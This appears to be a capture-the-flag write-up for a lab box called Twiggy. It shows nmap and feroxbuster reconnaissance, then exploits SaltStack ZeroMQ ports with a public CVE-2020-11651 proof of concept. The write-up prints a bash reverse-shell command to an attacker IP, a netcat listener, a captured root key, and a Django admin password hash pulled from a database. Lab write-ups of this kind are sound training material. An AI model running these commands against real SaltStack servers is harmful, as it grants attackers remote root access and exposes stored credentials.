









# Recon

I do my initial scan to see which ports and services are open.

## nmapAutomator.sh Full
```
$ sudo ./nmapAutomator.sh -H twiggy.pg -t Full -o full

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:7d:1a:56:9b:68:ae:f5:3b:f6:38:17:73:16:5d:75 (RSA)
|   256 1c:78:9d:83:81:52:f4:b0:1d:8e:32:03:cb:a6:18:93 (ECDSA)
|_  256 08:c9:12:d9:7b:98:98:c8:b3:99:7a:19:82:2e:a3:ea (ED25519)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
|_http-title: Home | Mezzanine
|_http-server-header: nginx/1.16.1
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
8000/tcp open  http    nginx 1.16.1
|_http-title: Site doesn't have a title (application/json).
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.16.1
```

# Enumeration

## Port 22 - OpenSSH 7.4

## Port 53 - NLnet Labs NSD

## Port 80 - nginx 1.16.1

### Feroxbuster (Dir Busting)

```
$ feroxbuster -w /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt -u http://twiggy.pg/ -o files.txt -r -x js

200      GET      273l      394w     6927c http://twiggy.pg/
500      GET        7l       13w      177c http://twiggy.pg/search.php/contact.php
500      GET        7l       13w      177c http://twiggy.pg/search.php/login.html
500      GET        7l       13w      177c http://twiggy.pg/advanced_search.php/subscription.php
500      GET        7l       13w      177c http://twiggy.pg/memberlist.php/cron.php
500      GET        7l       13w      177c http://twiggy.pg/memberlist.php/index.php
500      GET        7l       13w      177c http://twiggy.pg/wp-login.php/recommend.php
200      GET      273l      394w     6927c http://twiggy.pg/
200      GET        4l        7w      530c http://twiggy.pg/sitemap.xml
200      GET      273l      394w     6927c http://twiggy.pg/
200      GET      277l      356w     6138c http://twiggy.pg/search/
200      GET      354l      470w     7946c http://twiggy.pg/contact/
200      GET      161l      284w     4251c http://twiggy.pg/admin/login/?next=/admin/
200      GET      313l      350w     6252c http://twiggy.pg/blog/
```

### Feroxbuster (File Busting)

## Ports 4505 & 4506 - ZeroMQ ZMTP 2.0

https://github.com/jasperla/CVE-2020-11651-poc


`root key obtained: sxZXn5kSJ8GhLjvneaBPMAoMlbqbUNuZ2drFuheYR8r/goL8Iij0bGn7at8vI4Md1I5ESLm3+aw`



`python3 exploit.py --master 192.168.70.62 --exec "ping 192.168.49.70"`



`sudo tcpdump -i tun0 icmp`



`python3 exploit.py --master 192.168.70.62 --exec "bash -i >& /dev/tcp/192.168.49.70/80 0>&1"`



`sudo nc -nlvp 80`



## Port 8000 - nginx 1.16.1




# PrivEsc




```
[root@twiggy bin]# cat /etc/*-release
cat /etc/*-release
CentOS Linux release 7.8.2003 (Core)
NAME="CentOS Linux"
VERSION="7 (Core)"
ID="centos"
ID_LIKE="rhel fedora"
VERSION_ID="7"
PRETTY_NAME="CentOS Linux 7 (Core)"
ANSI_COLOR="0;31"
CPE_NAME="cpe:/o:centos:centos:7"
HOME_URL="https://www.centos.org/"
BUG_REPORT_URL="https://bugs.centos.org/"

CENTOS_MANTISBT_PROJECT="CentOS-7"
CENTOS_MANTISBT_PROJECT_VERSION="7"
REDHAT_SUPPORT_PRODUCT="centos"
REDHAT_SUPPORT_PRODUCT_VERSION="7"

CentOS Linux release 7.8.2003 (Core)
CentOS Linux release 7.8.2003 (Core)
[root@twiggy bin]#
```




```
[root@twiggy helloworld]# strings dev.db | grep pass
strings dev.db | grep pass
CREATE TABLE "auth_user" ("id" integer NOT NULL PRIMARY KEY AUTOINCREMENT, "password" varchar(128) NOT NULL, "last_login" datetime NULL, "is_superuser" bool NOT NULL, "first_name" varchar(30) NOT NULL, "last_name" varchar(30) NOT NULL, "email" varchar(254) NOT NULL, "is_staff" bool NOT NULL, "is_active" bool NOT NULL, "date_joined" datetime NOT NULL, "username" varchar(150) NOT NULL UNIQUE)
[root@twiggy helloworld]# trings dev.db | grep admin
trings dev.db | grep admin
bash: trings: command not found
[root@twiggy helloworld]# strings dev.db | grep
strings dev.db | grep
Usage: grep [OPTION]... PATTERN [FILE]...
Try 'grep --help' for more information.
[root@twiggy helloworld]# strings dev.db | grep admin
strings dev.db | grep admin
django_admin_log
adminlogentry
adminlogentry
pbkdf2_sha256$36000$A93UEkgg6foD$gVXfNmWINKueb3t2T3bcajJWaad4jEyi13yvlV0IqaM=example@example.com2020-05-18 08:00:09.184436admin
tabledjango_admin_logdjango_admin_log"CREATE TABLE "django_admin_log" ("id" integer NOT NULL PRIMARY KEY AUTOINCREMENT, "object_id" text NULL, "object_repr" varchar(200) NOT NULL, "action_flag" smallint unsigned NOT NULL, "change_message" text NOT NULL, "content_type_id" integer NULL REFERENCES "django_content_type" ("id"), "user_id" integer NOT NULL REFERENCES "auth_user" ("id"), "action_time" datetime NOT NULL)
Qindexdjango_admin_log_content_type_id_c4bce8ebdjango_admin_log
CREATE INDEX "django_admin_log_content_type_id_c4bce8eb" ON "django_admin_log" ("content_type_id")
1indexdjango_admin_log_user_id_c564eba6django_admin_log CREATE INDEX "django_admin_log_user_id_c564eba6" ON "django_admin_log" ("user_id")
	admin
GAadmin0002_logentry_remove_auto_add2020-05-18 08:00:07.0577120
%Aadmin0001_initial2020-05-18 08:00:07.017129/
[root@twiggy helloworld]# 
```